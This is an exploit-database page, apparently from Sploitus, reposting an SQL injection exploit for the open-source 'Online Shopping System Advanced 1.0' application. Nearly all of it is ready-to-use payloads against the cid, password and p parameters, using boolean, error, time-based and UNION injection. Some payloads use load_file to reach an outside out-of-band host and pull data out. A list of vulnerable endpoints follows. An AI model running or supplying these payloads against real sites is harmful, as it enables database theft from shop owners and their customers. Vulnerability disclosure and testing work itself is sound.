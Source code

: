 ```yaml
---
title: Online Shopping System Advanced 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38032&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-14
fetch_date: 2025-10-03T19:47:38.745691
---
```


# Online Shopping System Advanced 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Online Shopping System Advanced 1.0 SQL Injection Vulnerability

2022-10-13 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38032
## Title: online-shopping-system-advanced-1.0 SQLi
## Author: nu11secur1ty
## Vendor: https://github.com/PuneethReddyHC/online-shopping-system-advanced
## Software: https://github.com/PuneethReddyHC/online-shopping-system-advanced/archive/refs/heads/master.zip
## Reference: https://github.com/PuneethReddyHC/online-shopping-system-advanced/issues/51

The online-shopping-system-advanced-1.0 suffers from multiple SQLi
The attacker can steal all information from the database of this system.
Status: CRITICAL

[+] Exploit:

```MYSQL
Parameter: cid (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: getProduct=1&setPage=1&pageNumber=1&cid=2'+(select
load_file('\\\\oum6bh09wi5ca5njey591t5q7hda11upls9kwdk2.tupmangal.net\\miu'))+''
OR NOT 4084=4084 AND 'icSi'='icSi

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: getProduct=1&setPage=1&pageNumber=1&cid=2'+(select
load_file('\\\\oum6bh09wi5ca5njey591t5q7hda11upls9kwdk2.tupmangal.net\\miu'))+''
AND (SELECT 3031 FROM(SELECT COUNT(*),CONCAT(0x716a707a71,(SELECT
(ELT(3031=3031,1))),0x716a717871,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'gwMy'='gwMy

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: getProduct=1&setPage=1&pageNumber=1&cid=2'+(select
load_file('\\\\oum6bh09wi5ca5njey591t5q7hda11upls9kwdk2.tupmangal.net\\miu'))+''
AND (SELECT 4189 FROM (SELECT(SLEEP(17)))bNrO) AND 'UbMN'='UbMN

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: getProduct=1&setPage=1&pageNumber=1&cid=2'+(select
load_file('\\\\oum6bh09wi5ca5njey591t5q7hda11upls9kwdk2.tupmangal.net\\miu'))+''
UNION ALL SELECT
NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a707a71,0x7a4e4f74416a58717749646143726a6e68714368626556676e756d7076764867677176516b58684f,0x716a717871),NULL,NULL,NULL#
```
--------------------------------------------------------------------------------------------
```MYSQL
Parameter: password (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: [email protected]&password=e2H!l7r!I2' AND
(SELECT 7287 FROM(SELECT COUNT(*),CONCAT(0x71766a6b71,(SELECT
(ELT(7287=7287,1))),0x7171716b71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)# oUWI&remember-me=on

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: [email protected]&password=e2H!l7r!I2' AND
(SELECT 7259 FROM (SELECT(SLEEP(17)))yXIE)# kWgA&remember-me=on
````
--------------------------------------------------------------------------------------------

```MYSQL
Parameter: p (GET)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: p=MAKE_SET(3691=3691,8073)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: p=(SELECT 4211 FROM(SELECT
COUNT(*),CONCAT(0x71706a7171,(SELECT
(ELT(4211=4211,1))),0x7171717871,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL > 5.0.12 time-based blind - Parameter replace (heavy
query - comment)
    Payload: p=60'+(select
load_file('\\\\9x7re23uz38xdqq4hj8u4e8ba2gv4vzjqmed13ps.tupmangal.net\\eyn'))+'
(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A,
INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)
```

## All:

```txt
[1.1. http://pwnedhost.com/online-shopping-system-advanced/action.php
[cid parameter]]
[1.2. http://pwnedhost.com/online-shopping-system-advanced/action.php
[cid parameter]]
[1.3. http://pwnedhost.com/online-shopping-system-advanced/login.php
[password parameter]]
[1.4. http://pwnedhost.com/online-shopping-system-advanced/product.php
[p parameter]]
[1.5. http://pwnedhost.com/online-shopping-system-advanced/product.php
[p parameter]]
[1.6. http://pwnedhost.com/online-shopping-system-advanced/review.php
[email parameter]]
[1.7. http://pwnedhost.com/online-shopping-system-advanced/review.php
[name parameter]]
```

# Proof and Exploit:
[href](https://github.com/PuneethReddyHC/online-shopping-system-advanced/issues/51)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)